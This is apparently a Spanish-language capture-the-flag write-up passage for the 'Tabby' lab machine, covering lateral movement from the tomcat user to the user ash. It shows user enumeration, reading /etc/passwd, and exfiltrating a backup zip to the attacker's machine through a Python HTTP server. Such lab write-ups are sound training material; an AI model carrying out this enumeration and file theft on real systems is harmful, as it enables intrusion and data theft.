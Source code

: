 -----------------------
# MOVIMIENTO LATERAL DE USUARIOS

- Como podemos ver el usuario `tomcat` es un usuarios sin privilegios con el que solo tiene acceso a típicas rutas de configuración de los servicios webs que hay activos en el servidor y poco mas.

```bash
tomcat@tabby:/var/lib/tomcat9$ whoami
tomcat
tomcat@tabby:/var/lib/tomcat9$ id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
tomcat@tabby:/var/lib/tomcat9$ sudo -l
```

- Podemos observar que existe un usuario adicionar llamado `ash` por lo que vamos a intentar movernos lateralmente a este usuario para poder escalar privilegios a `root` desde el debido a que con el usuario `tomcat` no vamos a poder realizar nada.

```bash
tomcat@tabby:/var/lib/tomcat9$ ls -l /home/
total 4
drwxr-x--- 4 ash ash 4096 Sep 22 10:02 ash

tomcat@tabby:/var/lib/tomcat9$ cat /etc/passwd | grep -i bash
root:x:0:0:root:/root:/bin/bash
ash:x:1000:1000:clive:/home/ash:/bin/bash
tomcat@tabby:/var/lib/tomcat9$
```

**En este tipo de casos que nos tenemos que mover lateralmente de un usuario a otro lo mas probable es que encontremos algún tipo de credencial o vía de escalada dentro de los directorios que tiene acceso el usuario `tomcat` por lo que manos a la obra y lo mas importante en estos casos es el reconocimiento y no dejarnos ningún tipo de pista por ver.**

- Indagando un poco encontramos un fichero llamado `16162020_backup.zip` y como podemos ver tiene permisos del usuario `ash` por lo que parece bastante interesante, vamos a moverlo al directorio `/tmp` y transferirlo a nuestra maquina atacante para poder examinarlo mas exhaustivamente

```bash
tomcat@tabby:/var/www/html/files$ ls -la
total 36
drwxr-xr-x 4 ash  ash  4096 Aug 19  2021 .
drwxr-xr-x 4 root root 4096 Aug 19  2021 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16  2020 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Aug 19  2021 archive
drwxr-xr-x 2 root root 4096 Aug 19  2021 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16  2020 statement
```

- Transferencia del fichero

```bash
tomcat@tabby:/var/www/html/files$ cp 16162020_backup.zip /tmp/
tomcat@tabby:/var/www/html/files$ cd /tmp/
tomcat@tabby:/tmp$ which python3
/usr/bin/python3
tomcat@tabby:/tmp$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.16.13 - - [22/Sep/2024 12:41:53] "GET /16162020_backup.zip HTTP/1.1" 200 -
```
